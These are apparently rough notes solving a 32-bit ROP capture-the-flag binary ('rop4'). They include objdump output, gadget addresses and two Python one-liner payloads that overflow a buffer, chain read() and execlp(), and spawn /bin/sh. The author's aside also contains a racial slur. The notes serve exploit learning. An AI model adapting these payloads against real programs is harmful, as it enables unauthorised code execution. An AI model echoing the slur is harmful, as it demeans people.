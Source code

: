 




function have gadget
```c
signed int exec_the_string()
{
  int v1; // [sp+Ch] [bp-Ch]@0

  return execlp((char *)&exec_string, (int)&exec_string, 0, v1);
}
```

````
objdump -d rop4| grep 'exec'
08048ed0 <exec_the_string>:
 8048eed:       e8 be ab 00 00          call   8053ab0 <execlp>
objdump -d rop4| grep 'read'
 8048f5d:       e8 be ad 00 00          call   8053d20 <__libc_read>
```
8053d20
0xfffdd000
read(1,0xfffdd000,9)	1 is stdout (file input)
```
python -c 'print "A"*140 + "\x20\x3d\x05\x08" + "JUNK" +"\x01\x00\x00\x00" + "\x00\xd0\xfd\xff"+ "\x09\x00\x00\x00"' | ./rop4
```

that will help us print out /bin/sh to our terminal !! really nigga!!
the gadget
```asm
0x8053ab0  execlp
0x809b675 <__mpn_mul_1+53>:  pop    ebp			<---- address of /bin/sh
0x809b676 <__mpn_mul_1+54>:  pop    esi			<---- address of /bin/sh
0x809b677 <__mpn_mul_1+55>:  pop    edi			<---- 0
0x809b678 <__mpn_mul_1+56>:  ret  
```
so we need to redirect to ropgadget to add the argument of execlp function
then the script 
```
python -c 'print "A"*140 + "\x20\x3d\x05\x08" + "\x75\xb6\x09\x08" +"\x01\x00\x00\x00" + "\x00\xd0\xfd\xff"+ "\x09\x00\x00\x00" + "\xb0\x3a\x05\x08" + "\x00\xd0\xfd\xff" + "\x00\xd0\xfd\xff" + "\x00\x00\x00\x00"' | ./rop4
```

